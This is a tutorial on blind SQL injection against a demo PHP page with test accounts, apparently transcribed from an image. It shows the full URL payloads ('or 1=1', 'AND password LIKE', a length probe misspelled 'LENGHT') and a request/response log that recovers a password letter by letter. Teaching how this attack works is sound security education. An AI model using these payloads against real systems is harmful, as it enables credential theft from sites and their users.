 On the link "site.com/email.php?id=45", the website displays the message "le mail de lambda est exemple@secuobs.com". Now if we try a URL like "site.com/email.php?id=45%20or%201=1", the website then displays the message "le mail de exemple est php@secuobs.com"

During this last request, the PHP script executed the following SQL code:

```sql
"SELECT email FROM site_users WHERE id=45 or 1=1".
```

Since the condition "1=1" is always true, we were able to inject SQL code. "exemple" is a test account with ID 1, and "lambda" is another test account with ID 45.

If we try with "id=999999999", the web server will display the message "le mail de est", because there is no user with an ID equal to this value of 99999999.

It will be possible, thanks to this SQL injection, to find a given user's password with a brute force attack ([click](https://fr.wikipedia.org/wiki/Attaque_par_force_brute)).

Using the SQL operators 'LIKE' and '%', we'll make sure that the following SQL command is executed by the web server to the database:

```sql
"SELECT email FROM site_users WHERE id=45 AND password LIKE 'a%'"
```

Which effectively means:

```
email.php?id=45%20AND%20password%20LIKE%20'a%'
```

This SQL command will only return a response if the id field is equal to 45 and if the password field starts with 'a', hence the interest in using '%'. The password does not start with 'a', so the site displays the message "le mail de est".

We continue by testing several letters until we get a response from the SQL server via the web server, that is, the message "le mail de lambda est exemple@secuobs.com".

To find the length of the password, simply brute force its value using:

```
email.php?id=45%20AND%20LENGHT(password)=5
```

In this example, we find the value 5 as the password length.

We continue the operation until obtaining this user's password:

```
Request: email.php?id=45%20AND%20password%20LIKE%20'a%'
Response: "le mail de est"

Request: email.php?id=45%20AND%20password%20LIKE%20'b%'
Response: "le mail de lambda est exemple@secuobs.com"

Request: email.php?id=45%20AND%20password%20LIKE%20'ba%'
Response: "le mail de est"

Request: email.php?id=45%20AND%20password%20LIKE%20'bb%'
Response: "le mail de est"

....

Request: email.php?id=45%20AND%20password%20LIKE%20'be%'
Response: "le mail de lambda est exemple@secuobs.com"

Request: email.php?id=45%20AND%20password%20LIKE%20'bea%'
Response: "le mail de lambda est exemple@secuobs.com"

Request: email.php?id=45%20AND%20password%20LIKE%20'beaa%'
Response: "le mail de est"

```